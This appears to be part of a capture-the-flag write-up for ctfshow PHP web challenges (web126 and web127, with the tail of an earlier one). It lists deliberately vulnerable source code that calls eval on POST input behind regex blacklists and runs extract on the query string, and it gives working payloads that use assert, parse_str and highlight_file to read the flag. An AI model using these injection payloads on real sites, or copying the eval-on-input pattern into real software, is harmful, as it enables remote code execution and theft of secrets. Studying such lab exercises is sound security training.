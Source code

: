 payload：

```
GET:1=flag.php
POST:CTF_SHOW=&CTF[SHOW.COM=&fun=highlight_file($_GET[1])
```

## web126(assert)

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print|g|i|f|c|o|d/i", $c) && strlen($c)<=16){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
} 
```

payload:

```
GET:?a=1+fl0g=flag_give_me
POST:CTF_SHOW=&CTF[SHOW.COM=&fun=parse_str($a[1])
or
GET:?$fl0g=flag_give_me
POST:CTF_SHOW=&CTF[SHOW.COM=&fun=assert($a[0])
```

## web127(代替_的符号)

```php
error_reporting(0);
include("flag.php");
highlight_file(__FILE__);
$ctf_show = md5($flag);
$url = $_SERVER['QUERY_STRING'];


//特殊字符检测
function waf($url){
    if(preg_match('/\`|\~|\!|\@|\#|\^|\*|\(|\)|\\$|\_|\-|\+|\{|\;|\:|\[|\]|\}|\'|\"|\<|\,|\>|\.|\\\|\//', $url)){
        return true;
    }else{
        return false;
    }
}

if(waf($url)){
    die("嗯哼？");
}else{
    extract($_GET);
}
if($ctf_show==='ilove36d'){
    echo $flag;
}
```
